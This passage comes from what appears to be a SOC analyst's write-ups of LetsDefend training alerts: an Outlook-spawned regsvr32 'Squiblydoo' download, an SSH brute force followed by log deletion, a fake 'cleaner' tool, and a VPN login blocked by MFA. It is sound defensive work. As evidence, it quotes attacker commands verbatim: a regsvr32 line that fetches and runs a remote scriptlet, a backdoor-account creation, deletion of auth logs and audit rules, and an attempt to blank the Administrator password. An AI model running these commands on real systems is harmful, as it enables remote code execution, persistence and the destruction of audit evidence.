- Endpoint – Processes (host DESKTOP-USER, user Austin): `OUTLOOK.EXE` (PID 4820) started at 08:05:15. At 08:06:08 Outlook launched `cmd.exe` (PID 6784), which launched `regsvr32.exe` (PID 7023) at 08:06:25.
- Endpoint – Command line: `cmd.exe /c regsvr32.exe /s /u /i:http://84.38.130.118.com/shell.sct scrobj.dll` – the "Squiblydoo" technique, using a signed Windows binary to download and run a remote scriptlet.
- Log Management – Proxy: `cmd.exe` (PID 6784) GET request for `http://84[.]38[.]130[.]118[.]com/shell.sct`, Device Action: Permitted.
- Endpoint – Network: Connection to 84[.]38[.]130[.]118 at 08:06:42, 17 seconds after regsvr32 ran. Other connections (185.248.101.34, 13.225.78.26) had no Threat Intel match. Nothing after 08:07:10.
- Threat intel: 84[.]38[.]130[.]118 tagged Malicious.
- Anomaly: `explorer.exe` (PID 2104) started at 08:10:10 with parent `smss.exe` instead of the usual `userinit.exe`. Path and user (Austin) are legitimate; no further evidence linking it to the attack.

**Timeline (endpoint time):**

| Time | Event |
|------|-------|
| 02:12 | Phishing email with `mail.rtf` delivered (Allowed) |
| 08:05:15 | Austin opens Outlook |
| 08:06:08 | Outlook launches `cmd.exe` – RTF exploit triggered on open or preview |
| 08:06:25 | `regsvr32` fetches `shell.sct` from the attacker's server |
| 08:06:42 | Host connects to 84[.]38[.]130[.]118 |
| After 08:07:10 | No further suspicious activity observed |

**Screenshots:**



*OUTLOOK.EXE launched cmd.exe, which launched regsvr32.exe – an email client should never start a command shell.*

*Squiblydoo: regsvr32 downloading and running shell.sct from the attacker's server.*



*The proxy permitted the request for shell.sct.*



*Host connected to the malicious IP 84.38.130.118 at 08:06:42.*

**Outcome:**
- **Verdict:** True Positive
- **Reasoning:** Outlook launched cmd.exe about a minute after starting, which used regsvr32 to download and run a scriptlet from the attacker's server; the host then connected to that malicious IP. Delivered as an RTF attachment from an anonymous address, matching the CVE-2025-21298 exploit pattern.
- **Recommended action:** Isolate and reimage DESKTOP-USER (attacker code ran and its actions are unknown); apply the January 2025 patch for CVE-2025-21298 on all Windows hosts; until patched, set Outlook to read email in plain text; delete the email and block the sender address (not all of pm.me), the IP and the URL; hunt for Office apps spawning cmd.exe and regsvr32 with /i:http on other hosts; enable the Defender ASR rule blocking Office child processes; precautionary password reset for Austin.
- **MITRE ATT&CK:**
  - Initial Access: T1566.001 Phishing – Spearphishing Attachment
  - Execution: T1203 Exploitation for Client Execution; T1059.003 Windows Command Shell
  - Defense Evasion: T1218.010 System Binary Proxy Execution – Regsvr32
  - Command and Control: T1105 Ingress Tool Transfer (shell.sct download)
  - Note: The platform tagged T1059.001 (PowerShell) and T1574.002 (DLL side-loading); I found no evidence of either.
- **Time taken:** 25 min
- **Platform feedback:** 15 points (100%). All answers correct. Threat indicator: unexpected outgoing internet traffic; C2: Accessed; malware not quarantined.
- **Lessons learned:**
  - The parent process gives it away: Outlook should never launch cmd.exe.
  - Attackers abuse trusted, signed Windows tools like regsvr32 to download and run code, which can slip past allow-listing.
  - "Zero-click" means previewing can be enough, so I wrote "opened or previewed" rather than assuming the user clicked.
  - The same Threat Indicator question needs a different answer depending on the evidence: outbound traffic was central here, unlike the local exploit in Alert #5.
  - I note anomalies like explorer.exe's unusual parent, but don't claim they're malicious without evidence.

---

## Alert #9 – SOC306 Critical System File Deletion
- **Date worked:** 2026-11-07
- **Severity:** Medium
- **Alert type:** Persistence / Defense Evasion
- **Difficulty:** Medium
- **Hypothesis:** Deleting audit rules could be an admin changing logging, but the L1 note mentioned a search for an external IP in the auth logs. If someone was searching for an IP and then deleting logs, they were more likely hiding their own login.

**Evidence:**
- Alert: `rm -r audit.rules` on Linux host Dominic (172.16.17.107).
- Log Management – SSH: 6 failed SSH logins for user `analyst` from 87[.]249[.]134[.]136 between 15:09:42 and 15:10:25 UTC ("Failed password … ssh2"), then "Accepted password for analyst" at 15:10:30 UTC.
- Log Management – auditd: EXECVE record of `grep --color=auto 87.249.134.136` at 15:13:48 UTC. The audit timestamp (1722438828) confirms Terminal History is in UTC and the log display is 2 hours behind.
- Endpoint – Terminal History (commands began 12 seconds after login):
  - Discovery: `whoami`, `groups`, `cat /etc/group`
  - Credential search: `find / -type f -name '*password*'`
  - Backdoor account: `sudo useradd -m lettsdefend`, `sudo passwd lettsdefend` (lookalike of letsdefend, created with root privileges)
  - Covering tracks: `cat auth.log | grep "87.249.134.136"` then `rm -r auth.log`
  - Disabling auditing: `cat audit.rules` then `rm -r audit.rules`
- SIEM retained the authentication and audit logs even though the attacker deleted them on the host.
- Scope: Attacker IP only communicated with 172.16.17.107.
- Threat intel: No match in LetsDefend TI. AbuseIPDB 15% confidence with 58 reports (Hacking, Web App Attack); VirusTotal 0/92, tagged VPN. Datacamp Limited hosting/VPN range, so reputation is mixed; verdict based on behaviour.

**Timeline (UTC):**

| Time | Event |
|------|-------|
| 15:09:42–15:10:25 | 6 failed SSH logins for `analyst` |
| 15:10:30 | Successful SSH login as `analyst` |
| 15:10:42–15:12:07 | Discovery: whoami, groups, /etc/group |
| 15:12:30 | Search for password files |
| 15:13:04–15:13:11 | Backdoor account `lettsdefend` created with sudo |
| 15:13:48–15:13:54 | Searched auth.log for own IP, then deleted auth.log |
| 15:14:41 | Deleted audit.rules (alert triggered) |

**Screenshots:**



*6 failed SSH logins then "Accepted password for analyst"; the top row is auditd recording the attacker's grep for their own IP.*



*Discovery, password file search, backdoor account creation, then deleting auth.log and audit.rules – all within 4 minutes.*



*AbuseIPDB: 15% confidence but 58 reports – a shared hosting/VPN address.*



*VirusTotal: 0/92, tagged VPN. A clean reputation doesn't outweigh the behaviour.*

**Outcome:**
- **Verdict:** True Positive
- **Reasoning:** SSH brute force led to a successful login, after which the attacker ran discovery, searched for password files, used sudo to create a lookalike backdoor account, deleted the auth log containing their own IP and deleted the audit rules. Full compromise with root access and persistence.
- **Recommended action:** Isolate and rebuild the host; disable and reset the `analyst` account; delete `lettsdefend` and hunt for it on other hosts; restore audit rules and auth.log and re-enable auditd; check cron, `~/.ssh/authorized_keys` and `/etc/sudoers` for further persistence; rotate any credentials found in password files; block 87[.]249[.]134[.]136; restrict SSH (VPN or allow-list, key-based authentication, lockout/fail2ban); alert on log and audit-rule deletion across all hosts.
- **MITRE ATT&CK:**
  - Initial Access: T1133 External Remote Services (SSH); T1078 Valid Accounts
  - Credential Access: T1110.001 Brute Force – Password Guessing; T1552.001 Credentials in Files
  - Discovery: T1033 System Owner/User Discovery; T1069 Permission Groups Discovery
  - Persistence: T1136.001 Create Account – Local Account
  - Defense Evasion: T1562.012 Disable or Modify Linux Audit System; T1070.002 Clear Linux or Mac System Logs
- **Time taken:** 30 min
- **Platform feedback:** 30 points (100%). All answers correct. Defense evasion type: Impair Defenses.
- **Lessons learned:**
  - On Linux, "Failed password" and "Accepted password" in the SSH logs play the role of Windows Events 4625 and 4624.
  - An attacker searching the logs for their own IP and then deleting them is clear evidence of covering tracks – no admin does that.
  - Central logging matters: the attacker deleted auth.log on the host, but the SIEM already had a copy.
  - A Unix timestamp in an audit record can settle a timezone question precisely.
  - Reputation sources can disagree, especially for VPN and hosting IPs. I cross-check several and let the behaviour decide.
  - Impair Defenses (disabling auditing) and Indicator Removal (deleting logs) are different techniques, and this attacker used both.

---

## Alert #10 – SOC281 System Network Configuration Discovery Detected
- **Date worked:** 2026-11-07
- **Severity:** Low
- **Alert type:** Malware (Discovery)
- **Difficulty:** Medium
- **Hypothesis:** `ipconfig /all` is a routine admin command, so this could easily be a false positive. But it was launched by `20.exe` from a Downloads folder, and the L1 note linked it to a file shared via an email link. The key question was who ran it and what else happened around it.

**Evidence:**
- Alert: `cmd.exe /c ipconfig /all` on host Andrew (172.16.17.97, Windows 10), parent `C:\Users\LetsDefend\Downloads\20\20.exe`, current directory `Downloads\cleaner\`.
- Email Security: From `jame[@]cleanpatron[.]top` to andrew@letsdefend.io at 06:12, subject "Malicious Content Detection Application" – a security-themed lure offering a "cleaner" tool via a download link. Sender IP 104[.]21[.]89[.]22 (Cloudflare). Action: Allowed. Only one recipient.
- Browser History: Andrew downloaded `hxxps://files-ld[.]s3[.]us-east-2[.]amazonaws[.]com/cleaner.zip` at 08:40:36. The same S3 bucket appeared in Alerts #4, #5 and several earlier incidents. All other browsing was ordinary Windows news sites.
- Terminal History (attacker activity, 08:41:03–08:42:29):
  - `cleaner.ps1` run with `Set-ExecutionPolicy -Scope Process Bypass` (the "Run with PowerShell" pattern, so the user ran it), 27 seconds after the download
  - Discovery: `wmic ntdomain get domainname`, `net localgroup administrators`, `net group "domain admins" /domain`
  - Account manipulation: `net user administrator "" & echo a > C:/windows/temp/admin.txt` (attempt to blank the local Administrator password)
  - `powershell -exec bypass "import-module …\Downloads\20\m2.ps1"` (repeated)
  - `cmd /c ipconfig /all` from `20.exe` (alert trigger)
  - `cmd /c call "c:\windows\temp\tmp.vbs"` – last command
- Background noise ruled out: AWS driver checks, Get-WinEvent health checks, Software Inventory Logging and SentinelOne browser host commands are routine and automated.
- Network: Sequential connections to 34.201.x.x (one per second from 08:44:42) coincide with `msiexec.exe` launched by the genuine `SentinelAgent.exe` (SYSTEM) at 08:44:41 – consistent with a SentinelOne agent update. No Threat Intel matches; no C2 identified.
- Threat intel: `cleanpatron.top` – no match. A different URL serving "cleaner.zip" is tagged malware_download (URLhaus); the files-ld URL itself was not matched.
- Scope: One recipient, one host. No other host downloaded cleaner.zip.

**Timeline:**

| Time | Event |
|------|-------|
| 06:12:00 | Phishing email delivered to Andrew (Allowed) |
| 08:40:36 | Andrew downloads `cleaner.zip` from the files-ld S3 bucket |
| 08:41:03 | `cleaner.ps1` runs with execution policy bypassed |
| 08:41:16–08:41:23 | Domain and admin discovery; Administrator password tampering |
| 08:41:26–08:41:38 | `m2.ps1` loaded; `ipconfig /all` from `20.exe` (alert) |
| 08:42:28–08:42:29 | `tmp.vbs` runs from C:\Windows\Temp; no further commands |

**Screenshots:**



*ipconfig /all launched by 20.exe from a Downloads folder.*



*A "security tool" lure from cleanpatron.top with a download link.*



*cleaner.zip downloaded from the files-ld S3 bucket among ordinary browsing.*



*cleaner.ps1 run with the execution policy bypassed, then domain and admin discovery and the Administrator password change attempt.*



*m2.ps1 loaded, ipconfig /all (alert trigger), then tmp.vbs – the last command.*

**Outcome:**
- **Verdict:** True Positive
- **Reasoning:** A security-themed phishing email led Andrew to download and run a fake cleaner tool, which bypassed PowerShell restrictions, enumerated the domain and its admins, tried to blank the local Administrator password, loaded a second script and ran a VBScript. The ipconfig command was one step in this chain.
- **Recommended action:** Isolate and rebuild the host; reset the local Administrator password (check whether it was blanked) and Andrew's password; delete the email and block the sender and `cleanpatron.top`; block the files-ld S3 subdomain (now seen in four incidents); hunt for cleaner.zip, 20.exe, m2.ps1 and tmp.vbs on other hosts; monitor domain admin accounts; enforce signed PowerShell scripts, enable script block logging and alert on `-exec bypass`; warn staff about unsolicited "security tools".
- **MITRE ATT&CK:**
  - Initial Access: T1566.002 Phishing – Spearphishing Link
  - Execution: T1204.002 User Execution – Malicious File; T1059.001 PowerShell; T1059.003 Windows Command Shell; T1059.005 Visual Basic
  - Discovery: T1016 System Network Configuration Discovery; T1069.001 / T1069.002 Local and Domain Groups
  - Persistence / Privilege: T1098 Account Manipulation
- **Time taken:** 25 min
- **Platform feedback:** 20 points (92%). Missed Attacker IP Analysis: answered Internal, correct was External.
- **Lessons learned:**
  - The same command can be harmless or malicious. What made ipconfig malicious here was its parent (20.exe from Downloads) and the commands around it.
  - Most of the 173 commands were background noise from cloud agents and the EDR. Recognising that noise and skipping it is a core skill.
  - I checked a scan-like network pattern and found a benign explanation (an EDR update), rather than adding it to the attack.
  - Attacker origin is about where the attack came from (an external email sender), not where the commands ran. My first instinct was External and it was right – I should trust my own reasoning and check it rather than switch.
  - Lures that pose as security tools exploit careful users.

---

## Alert #11 – SOC257 VPN Connection Detected from Unauthorized Country
- **Date worked:** 2026-11-13
- **Severity:** Low
- **Alert type:** Unauthorized Access
- **Difficulty:** Easy
- **Hypothesis:** A VPN login from an unexpected country could be the user travelling, or an attacker using stolen credentials. The key questions were whether the source was known to be malicious, whether the login actually succeeded, and whether anything reached the internal network.

**Evidence:**
- Alert: VPN connection to `hxxps://vpn-letsdefend[.]io` for **monica@letsdefend.io** from **113[.]161[.]158[.]12** to the VPN gateway 33[.]33[.]33[.]33, at 02:04 local time (UTC+3). MITRE tags: T1595, T1133, T1621.
- Threat intel: 113[.]161[.]158[.]12 tagged **Brute Force** (AbuseCH). The login location was Hanoi, Vietnam.
- Firewall (22:49–22:59 UTC): about 11 connections from the attacker IP to the VPN gateway on random high ports (20456, 11121, 38409, 54162 and others), plus 443 – a **port scan** of the gateway before the login attempts.
- Proxy (23:01:01, 23:02:26, 23:03:09): `POST /logon.html` for Monica, each with **Response Status 200** – the password was accepted and the VPN moved on to the OTP step.
- Firewall (23:01, 23:02, 23:03): **"Incorrect OTP Code"** after each login. No successful session afterwards and no further activity from the IP.
- Email Security: at each attempt, security@letsdefend.io sent Monica an **"OTP for MFA Activation"** email with the attempt's details (IP 113.161.158.12, Hanoi, Windows, Chrome). The code went to Monica's mailbox, which the attacker couldn't read.
- No failed password attempts: the attacker had Monica's **correct password from the first try**, so the credentials were stolen beforehand (phishing, reuse or a leak), not guessed here.
- Endpoint (host Monica): normal processes (services, svchost Task Scheduler, Chrome, GoogleUpdate). Terminal history showed 12 discovery-style commands (`systeminfo`, `ipconfig /all`, `netstat -ano`, `tasklist`, `net user`, `wmic product get name` …) run **exactly every 15 minutes from 08:00 to 10:45**, five hours after the attempts. The fixed schedule points to an automated inventory script, not the attacker, who never got a VPN session.

**Timeline (UTC):**

| Time | Event |
|------|-------|
| 22:49:47–22:59:07 | Port scan of the VPN gateway from 113.161.158.12 |
| 23:01:01 | Login with Monica's password accepted; OTP sent to Monica; incorrect OTP entered |
| 23:02:26 | Second attempt: password accepted, incorrect OTP |
| 23:03:09 | Third attempt: password accepted, incorrect OTP |
| After 23:03 | No further activity from the attacker IP; no successful VPN session |

**Screenshots:**



*VPN login for Monica from 113.161.158.12, flagged as an unauthorized country.*



*The source IP is tagged Brute Force.*



*Connections to the VPN gateway on random ports before the login attempts.*



*Three logins: each accepted at the proxy (200), then rejected at the firewall for an incorrect OTP.*



*Response 200 on logon.html: the password was correct, so the VPN asked for an OTP.*



*The MFA activation code went to Monica's mailbox, with the attacker's location: Hanoi.*



*Commands on Monica's host every 15 minutes, hours later: an automated pattern, not the attacker.*

**Outcome:**
- **Verdict:** True Positive (attempted unauthorized access, blocked by MFA)
- **Reasoning:** A known malicious IP scanned the VPN gateway, then logged in three times with Monica's valid password. MFA stopped it: the OTP went to Monica's email and every code entered was wrong. No VPN session was created and nothing reached the internal network, so no system was compromised – but Monica's password is.
- **Recommended action:** Reset Monica's password and confirm her MFA enrolment with her directly (the attacker was trying to activate MFA on her account); block 113.161.158.12; restrict VPN logins from countries the business doesn't operate in; check other accounts for logins from this IP; find out how the password leaked (phishing email, reuse on another site). Host isolation not required.
- **MITRE ATT&CK:**
  - Reconnaissance: T1595 Active Scanning
  - Initial Access / Persistence: T1133 External Remote Services; T1078 Valid Accounts
  - Credential Access: T1621 Multi-Factor Authentication Request Generation
- **Time taken:** 23 min
- **Platform feedback:** 30 points (94%). Missed "Is sensitive data at risk?": answered Yes, correct was No.
- **Lessons learned:**
  - A **200 response is not a successful login**. Here it only meant the password step passed; the firewall's OTP result showed the attempt failed. Read every log source before deciding.
  - **Only OTP failures, no password failures**, means the password was already known. The real incident is a compromised credential, and the fix is a password reset, not isolation.
  - **MFA works.** Valid stolen credentials were not enough.
  - **Don't overstate impact.** I answered that sensitive data was at risk because the password was compromised; the platform's view is that with MFA intact, no data was reachable. The compromised account is handled through containment, not as data exposure.
  - Discovery commands aren't always an attacker: a fixed 15-minute schedule, hours after a failed attempt, points to automation.
  - **What I'd check next time:** the Network Action tab on the host, to show directly that the attacker IP never connected to it.

---
